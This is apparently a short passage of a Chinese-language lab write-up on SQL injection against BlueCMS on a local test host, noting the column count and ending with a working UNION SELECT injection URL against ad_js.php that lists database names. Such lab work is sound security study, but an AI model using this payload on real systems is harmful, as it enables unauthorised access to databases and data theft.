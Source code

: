 ![Alt text](image-31.png)   
此处查询字段为7个，确定显示位.   
![Alt text](image-32.png)   
查找库名。   
![Alt text](image-33.png)   
列举出其他库名。   
```url
 view-source:http://192.168.228.137/bluecms/uploads/ad_js.php?ad_id=-111%20union%20all%20select%201,2,3,4,5,6,group_concat(schema_name)%20from%20information_schema.schemata
```